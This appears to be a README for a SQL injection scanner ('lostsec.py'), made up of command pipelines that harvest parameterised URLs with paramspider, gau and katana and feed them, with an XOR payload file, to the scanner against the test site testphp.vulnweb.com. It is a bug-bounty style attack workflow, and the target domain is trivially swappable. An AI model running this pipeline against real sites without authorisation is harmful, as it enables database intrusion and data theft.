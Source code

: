 BEST SQLI METHODLOGY BY ME:

for single url:

python3 lostsec.py -u "http://testphp.vulnweb.com/artists.php?artist="  -p payloads/xor.txt -t 5

for multiple urls:

paramspider -d testphp.vulnweb.com -o urls.txt
cat output/urls.txt | sed 's/FUZZ//g' >final.txt
python3 lostsec.py -l final.txt -p payloads/xor.txt -t 5

echo testphp.vulnweb.com | gau --mc 200 | urldedupe >urls.txt
cat urls.txt | grep -E "\.php|\.asp|\.aspx|\.cfm|\.jsp" | grep '=' | sort > output.txt
cat output.txt | sed 's/=.*/=/' >final.txt
python3 lostsec.py -l final.txt -p payloads/xor.txt -t 5

echo testphp.vulnweb.com | katana -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -f qurl | urldedupe >output.txt
katana -u http://testphp.vulnweb.com -d 5 | grep '=' | urldedupe | anew output.txt
cat output.txt | sed 's/=.*/=/' >final.txt
python3 lostsec.py -l final.txt -p payloads/xor.txt -t 5
